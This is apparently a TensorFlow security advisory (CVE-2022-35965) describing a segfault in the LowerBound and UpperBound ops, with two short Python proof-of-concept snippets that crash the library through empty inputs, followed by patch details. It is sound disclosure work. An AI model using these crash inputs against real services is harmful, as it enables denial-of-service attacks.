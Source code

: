 ## TFSA-2022-097: Segfault in `LowerBound` and `UpperBound`

### CVE Number
CVE-2022-35965

### Impact
If `LowerBound` or `UpperBound` is given an empty`sorted_inputs` input, it results in a `nullptr` dereference, leading to a segfault that can be used to trigger a denial of service attack.
```python
import machina as tf

out_type = tf.int32
sorted_inputs = tf.constant([], shape=[10,0], dtype=tf.float32)
values = tf.constant([], shape=[10,10,0,10,0], dtype=tf.float32)
tf.raw_ops.LowerBound(sorted_inputs=sorted_inputs, values=values, out_type=out_type)
```
```python
import machina as tf

out_type = tf.int64
sorted_inputs = tf.constant([], shape=[2,2,0,0,0,0,0,2], dtype=tf.float32)
values = tf.constant(0.372660398, shape=[2,4], dtype=tf.float32)
tf.raw_ops.UpperBound(sorted_inputs=sorted_inputs, values=values, out_type=out_type)
```

### Patches
We have patched the issue in GitHub commit [bce3717eaef4f769019fd18e990464ca4a2efeea](https://github.com/machina/machina/commit/bce3717eaef4f769019fd18e990464ca4a2efeea).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/machina/machina/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Neophytos Christou, Secure Systems Labs, Brown University.
